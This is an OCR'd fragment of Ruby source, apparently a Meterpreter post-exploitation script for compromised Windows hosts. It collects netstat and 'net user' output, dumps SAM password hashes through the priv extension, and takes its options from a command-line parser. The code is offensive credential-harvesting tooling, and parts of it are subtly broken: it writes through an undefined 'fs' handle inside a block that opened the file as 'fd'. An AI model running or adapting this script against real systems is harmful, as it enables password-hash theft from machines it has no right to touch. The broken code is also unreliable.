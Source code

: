 ```ruby
			fs.puts("\n------------- Windows Connections and Listening Ports (netstat -an) -------------")
			fs.puts(m_exec(client, "netstat -an"))
		end
		print_good("Network information downloading... -> DONE")
	rescue ::Exception => e
		print_error("Network information downloading... - ERROR")
	end
end

# Users Info Harvesting Function
#-----------------------------------------------------------
def usersinfo
	begin
		print_status("Users information downloading...")
		create_logs_directory
		::File.open(::File.join(@logs_path, "usersinfo.txt"), "w") do |fd|
			fs.puts("\n------------- Windows Users (net user) -------------")
			fs.puts(m_exec(client, "net user"))
			fs.puts("\n------------- Windows Users Passwords Hashes -------------")
			client.core.use("priv")
			begin
				client.priv.sam_hashes.each { |h| fd.puts h }
			rescue ::Exception => e
				fd.puts("Error dumping hashes.")
				print_error("Error dumping hashes #{e}")
			end
		end
		print_good("Users information downloading... -> DONE")
	rescue ::Exception => e
		print_error("Users information downloading... - ERROR")
	end
end
```

```ruby
################ Main ################

# Check for Version of Meterpreter
wrong_meter_version(meter_type) if meter_type !~ /win32|win64/i # Remove none supported versions

@exec_opts.parse(args) { |opt, idx, val|
	case opt
	when "-h"
		usage
	when "-s"
		sysinfo
	when "-n"
		netinfo
	when "-u"
		usersinfo
	end
}
```

---
---
